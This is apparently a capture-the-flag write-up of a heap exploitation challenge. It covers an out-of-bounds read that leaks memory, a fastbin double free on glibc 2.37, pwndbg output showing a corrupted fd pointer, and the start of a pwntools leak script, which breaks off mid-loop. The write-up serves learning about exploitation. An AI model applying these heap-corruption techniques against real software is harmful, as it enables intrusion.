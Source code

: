 (this is an old write up from when I was younger)
# RE & Finding The Vulnerabilities

- out of bounds read due to improper null termination:
![](https://i.imgur.com/pOu1CbA.png)
- since our input `isn't properly null terminated` when it's printed out when we input r3dDr4g3nst1str0f1 plus more data to stuff the buffer, when it prints out our input back to us it contains a memory leak.

- and we can obviously call malloc and free at will so we have ourselves a `fastbin dup` (double free)
---
```d
pwndbg> fastbins  
fastbins  
0x30: 0x55b9ed1f2450 —▸ 0x55b9ed1f2420 ◂— 0xcafebabe  
pwndbg> heap  
Allocated chunk | PREV_INUSE  
Addr: 0x55b9ed1f1000  
Size: 0x410 (with flag bits: 0x411)  
  
Allocated chunk | PREV_INUSE  
Addr: 0x55b9ed1f1410  
Size: 0x1010 (with flag bits: 0x1011)  
  
Free chunk (fastbins) | PREV_INUSE  
Addr: 0x55b9ed1f2420  
Size: 0x30 (with flag bits: 0x31)  
fd: 0xcafebabe  
  
Free chunk (fastbins) | PREV_INUSE  
Addr: 0x55b9ed1f2450  
Size: 0x30 (with flag bits: 0x31)  
fd: 0x55b9ed1f2420  
  
Top chunk | PREV_INUSE  
Addr: 0x55b9ed1f2480  
Size: 0x1fb80 (with flag bits: 0x1fb81)
```

- so we've corrupted the fd pointer, now what? what do we link it to, keep in mind the `glibc` version is pretty new, version 2.37 to be exact.

- finding the libc leak, lets create a script to leak addresses.
```python
#!/usr/bin/python3  
from pwn import *  
  
  
elf = context.binary = ELF("da", checksec=True)  
#context.log_level = "debug"  
  
  
def start():  
   if args.GDB:  
       return gdb.debug(elf.path, gdbscript=gs)  
   else:  
       return process(elf.path)  
  
  
add = 0  
while True:  
       io = start()  
```